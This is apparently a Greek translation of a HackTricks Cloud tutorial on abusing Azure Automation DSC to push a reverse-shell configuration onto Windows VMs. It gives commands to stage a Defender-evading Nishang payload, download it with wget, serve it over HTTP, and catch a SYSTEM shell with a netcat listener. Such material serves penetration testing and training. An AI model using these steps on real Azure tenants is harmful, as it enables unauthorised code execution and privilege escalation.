 # Az - Εκτέλεση Κώδικα Απομακρυσμένης Παραμετροποίησης Κατάστασης

<details>

<summary><strong>Μάθετε το χάκινγκ στο AWS από το μηδέν μέχρι τον ήρωα με το</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Άλλοι τρόποι υποστήριξης του HackTricks:

* Εάν θέλετε να δείτε την **εταιρεία σας να διαφημίζεται στο HackTricks** ή να **κατεβάσετε το HackTricks σε μορφή PDF** ελέγξτε τα [**ΣΧΕΔΙΑ ΣΥΝΔΡΟΜΗΣ**](https://github.com/sponsors/carlospolop)!
* Αποκτήστε το [**επίσημο PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ανακαλύψτε [**την Οικογένεια PEASS**](https://opensea.io/collection/the-peass-family), τη συλλογή μας από αποκλειστικά [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Εγγραφείτε στη** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στη [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Μοιραστείτε τα χάκινγκ κόλπα σας υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) αποθετήρια του github.

</details>

**Ελέγξτε την πλήρη ανάρτηση στο: [https://medium.com/cepheisecurity/abusing-azure-dsc-remote-code-execution-and-privilege-escalation-ab8c35dd04fe](https://medium.com/cepheisecurity/abusing-azure-dsc-remote-code-execution-and-privilege-escalation-ab8c35dd04fe)**

### Περίληψη Προετοιμασίας Υποδομής Απομακρυσμένου Διακομιστή (C2) και Βημάτων

#### Επισκόπηση
Η διαδικασία περιλαμβάνει τη δημιουργία μιας απομακρυσμένης υποδομής διακομιστή για τη φιλοξενία ενός τροποποιημένου φορτίου Nishang `Invoke-PowerShellTcp.ps1`, με το όνομα `RevPS.ps1`, σχεδιασμένου για να παρακάμπτει τον Windows Defender. Το φορτίο εξυπηρετείται από ένα μηχάνημα Kali Linux με διεύθυνση IP `40.84.7.74` χρησιμοποιώντας ένα απλό HTTP server Python. Η λειτουργία εκτελείται μέσω αρκετών βημάτων:

#### Βήμα 1 — Δημιουργία Αρχείων
- **Απαιτούμενα Αρχεία:** Χρειάζονται δύο scripts PowerShell:
1. `reverse_shell_config.ps1`: Ένα αρχείο Desired State Configuration (DSC) που ανακτά και εκτελεί το φορτίο. Είναι διαθέσιμο στο [GitHub](https://github.com/nickpupp0/AzureDSCAbuse/blob/master/reverse_shell_config.ps1).
2. `push_reverse_shell_config.ps1`: Ένα script για τη δημοσίευση της διαμόρφωσης στον εικονικό υπολογιστή, διαθέσιμο στο [GitHub](https://github.com/nickpupp0/AzureDSCAbuse/blob/master/push_reverse_shell_config.ps1).
- **Προσαρμογή:** Οι μεταβλητές και οι παράμετροι σε αυτά τα αρχεία πρέπει να προσαρμοστούν στο συγκεκριμένο περιβάλλον του χρήστη, συμπεριλαμβανομένων των ονομάτων πόρων, των διαδρομών αρχείων και των αναγνωριστικών διακομιστή/φορτίου. 

#### Βήμα 2 — Συμπίεση Αρχείου Διαμόρφωσης
- Το `reverse_shell_config.ps1` συμπιέζεται σε ένα αρχείο `.zip`, καθιστώντας το έτοιμο για μεταφορά στο Azure Storage Account.
```powershell
Compress-Archive -Path .\reverse_shell_config.ps1 -DestinationPath .\reverse_shell_config.ps1.zip
```
#### Βήμα 3 — Ορισμός Περιβάλλοντος Αποθήκευσης & Μεταφόρτωση
- Το συμπιεσμένο αρχείο διαμόρφωσης ανεβάζεται σε ένα προκαθορισμένο δοχείο αποθήκευσης Azure, azure-pentest, χρησιμοποιώντας την εντολή Set-AzStorageBlobContent του Azure.
```powershell
Set-AzStorageBlobContent -File "reverse_shell_config.ps1.zip" -Container "azure-pentest" -Blob "reverse_shell_config.ps1.zip" -Context $ctx
```
#### Βήμα 4 — Προετοιμασία του Kali Box
- Ο διακομιστής Kali κατεβάζει το φορτίο RevPS.ps1 από ένα αποθετήριο GitHub.
```bash
wget https://raw.githubusercontent.com/nickpupp0/AzureDSCAbuse/master/RevPS.ps1
```
- Το σενάριο επεξεργάζεται για να καθορίσει τον στόχο της Windows VM και τη θύρα για το αντίστροφο κέλυφος.

#### Βήμα 5 — Δημοσίευση Αρχείου Διαμόρφωσης
- Το αρχείο διαμόρφωσης εκτελείται, με αποτέλεσμα το σενάριο αντίστροφου κελύφους να εγκαθίσταται στην καθορισμένη τοποθεσία στην Windows VM.

#### Βήμα 6 — Φιλοξενία Φορτίου και Ρύθμιση Ακροατή
- Ένας Python SimpleHTTPServer ξεκινά για να φιλοξενήσει το φορτίο, μαζί με έναν ακροατή Netcat για την καταγραφή εισερχόμενων συνδέσεων.
```bash
sudo python -m SimpleHTTPServer 80
sudo nc -nlvp 443
```
- Ο προγραμματισμένος έργος εκτελεί το φορτίο, επιτυγχάνοντας προνόμια επιπέδου SYSTEM.

#### Συμπέρασμα

Η επιτυχής εκτέλεση αυτής της διαδικασίας ανοίγει πολλές δυνατότητες για περαιτέρω ενέργειες, όπως αποκομίζοντας διαπιστευτήρια ή επεκτείνοντας την επίθεση σε πολλές εικονικές μηχανές. Ο οδηγός ενθαρρύνει τη συνεχή μάθηση και δημιουργικότητα στον τομέα του Azure Automation DSC.

<details>

<summary><strong>Μάθετε το hacking του AWS από το μηδέν μέχρι τον ήρωα με το</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Άλλοι τρόποι για να υποστηρίξετε το HackTricks:

* Εάν θέλετε να δείτε την **εταιρεία σας να διαφημίζεται στο HackTricks** ή να **κατεβάσετε το HackTricks σε μορφή PDF** ελέγξτε τα [**ΣΧΕΔΙΑ ΣΥΝΔΡΟΜΗΣ**](https://github.com/sponsors/carlospolop)!
* Αποκτήστε το [**επίσημο PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ανακαλύψτε [**The PEASS Family**](https://opensea.io/collection/the-peass-family), τη συλλογή μας από αποκλειστικά [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Εγγραφείτε στη** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στη [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Μοιραστείτε τα κόλπα σας για το hacking υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) αποθετήρια του github.

</details>
